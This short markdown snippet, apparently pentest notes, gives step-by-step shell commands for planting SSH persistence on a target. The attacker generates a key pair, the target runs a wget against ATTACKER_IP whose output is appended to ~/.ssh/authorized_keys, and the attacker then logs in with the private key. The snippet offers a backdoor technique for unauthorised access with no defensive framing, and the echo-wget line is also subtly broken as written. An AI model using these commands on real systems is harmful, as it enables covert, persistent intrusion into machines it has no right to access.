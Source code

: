 ### Shell Commands

**On Attacker machine:**
```bash
ssh-keygen -t rsa

```
*remove the user@kali from the end of pulic key so that we can login into current user tty session*


**On Target machine:**
```bash
echo $(wget https://ATTACKER_IP/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys
```

**On Attacker machine:**
```bash
ssh -i id_rsa user@Target
```